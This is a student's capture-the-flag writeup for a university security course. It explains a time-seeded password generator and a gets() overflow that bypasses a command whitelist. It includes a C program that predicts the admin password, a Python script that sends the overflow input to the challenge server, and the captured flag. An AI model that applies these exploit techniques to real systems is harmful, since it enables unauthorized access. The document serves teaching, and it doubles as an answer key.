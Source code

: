 # Writeup 8 - Binaries II

Name: *Sara Garcia-Beech*
Section: *0101*

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: *Sara Garcia-Beech*

## Assignment Writeup

### Part 1 (100 pts)
Answer the following questions regarding the server executable (for which source is provided).

1. How is the per-session administrator password generated? Are there any inherent weaknesses in this implementation?

A 16 character string is generated using the rand function, taking the current time as the seed parameter. This is inherently weak as a separate program could produce the same "random" password if it is run at the same time.

2. Describe two vulnerabilities in this program. Provide specific line numbers and classifications of the vulnerability. Explain potential ramifications as well as ways to avoid these vulnerabilities when writing code.

Line 68: The program takes a command from the user as input, but since the program uses the gets function here, it does not check the length of the input. This could potentially cause buffer overflows depending on what input is given.

Line 71: The program uses the nonstandard strcasestr function to compare the command given as user input to a list of acceptable user commands. If unchecked input causes a buffer overflow, the command variable could be overwritten and the strcasestr function could compare the input with something other than the command variable's encoded contents.

3. What is the flag?

CMSC389R-{expl017-2-w1n}

4. Describe the process you followed to obtain the flag: vulnerabilities exploited, your inputs to the server in a human-readable format, etc. If you create any helper code please include it.

I began by attempting to determine the password. The vulnerability in the generation of the password meant that it was possible to replicate the password generation with my own program, given that the program was run within the same second as the server's own password generation. This was done with my pwd.c program. Redirecting the output of the pwd.c function into the server allowed me to raise my privileges to those of admin and run commands. Running ls on the server revealed a file named flag, but there was no way to read the contents of the file with the limited whitelisted commands. However, the server took in user input for a command with the gets function, which is vulnerable to buffer overflows. Giving the program an input longer than 32 characters overwrote the commands variable with the contents of the string after the 32nd character. To run "cat flag", I gave as input "cat flag", followed by enough spaces to reach 32 characters, and then the same thing repeated, so that strcasestr would compare `cat flag                         ` with itself, return true, and run cat flag without a problem.

Input summary:
```
3
Output of pwd.c
4
"cat flag                         cat flag                         "
```

pwd.c:
```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <time.h>

#define BUFF_SIZE 32
#define FLAG_SIZE 32
#define PASS_SIZE 16

int main(void) {
    int i, prompt_response;
    /* password for admin to provide to dump flag */
    char *password;
    /* true if user is admin */
    uint8_t admin;

    /* seed random with time so that we can password */
    srand(time(0));
    admin = 0;
    password = calloc(1, PASS_SIZE+1);
    for (i = 0; i < PASS_SIZE; i++) {
        password[i] = rand() % ('z'-' ') + ' ';
    }
    password[PASS_SIZE] = 0;

    printf("%s", password);

    return 0;
}
```

stub.py:
```
import socket
import os
import sys

host = "ec2-18-222-89-163.us-east-2.compute.amazonaws.com"
port = 1337

def server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))

    command = "cat flag                         cat flag                         "

    data = s.recv(1048)
    print(data)

    s.send("3\n")
    data = s.recv(1048)
    print(data)

    os.system("./pwd >> temp.txt")
    os.system("cat temp.txt")
    fl = open("temp.txt", "r")
    pwd = fl.read().split('\n')[0] + '\n'
    print("PWD:")
    print(pwd)
    print("****")

    s.send(pwd)

    data = s.recv(1048)
    print(data)

    s.send("4\n")
    print("Sending 4...")
    data = s.recv(1048)
    print(data)
    s.send(command + "\n")
    print("sending ls...")
    data = s.recv(1048)
    print(data)
    data = s.recv(1048)
    print(data)

    os.system("rm temp.txt")

server()
```
